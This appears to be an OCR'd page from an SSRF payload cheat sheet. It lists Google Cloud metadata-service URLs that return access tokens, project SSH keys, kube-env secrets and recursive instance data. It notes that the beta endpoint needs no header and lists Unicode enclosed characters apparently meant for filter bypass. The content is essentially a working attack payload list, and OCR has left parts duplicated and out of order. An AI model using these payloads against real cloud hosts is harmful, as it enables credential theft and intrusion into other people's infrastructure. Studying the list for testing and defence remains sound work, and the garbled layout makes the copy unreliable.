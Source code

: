 [http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true](.)

[http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true](.)

SSH Public Key : [http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json](.)

Get Access Token : [http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token](.)

Kubernetes Key : [http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json](.)

[http://169.254.169.254/computeMetadata/v1/](.)

[http://metadata.google.internal/computeMetadata/v1/](.)

[http://metadata/computeMetadata/v1/](.)

[http://metadata.google.internal/computeMetadata/v1/instance/hostname](.)

[http://metadata.google.internal/computeMetadata/v1/instance/id](.)

[http://metadata.google.internal/computeMetadata/v1/project/project-id](.)

## List Dotted Char

[① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ](.)

[⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ](.)

[⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ](.)

[⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵](.)

[Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ](.)

[ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ](.)

[⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿](.)

- SSRF URL for Google Cloud
Requires the header “Metadata-Flavor: Google” or “X-Google-Metadata-Request: True”

[http://169.254.169.254/computeMetadata/v1/](.)

[http://metadata.google.internal/computeMetadata/v1/](.)

[http://metadata/computeMetadata/v1/](.)

[http://metadata.google.internal/computeMetadata/v1/instance/hostname](.)

[http://metadata.google.internal/computeMetadata/v1/instance/id](.)

[http://metadata.google.internal/computeMetadata/v1/project/project-id](.)
Google allows recursive pulls

[http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true](.)
Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

[http://metadata.google.internal/computeMetadata/v1beta1/](.)

[http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true](.)
Interesting files to pull out:
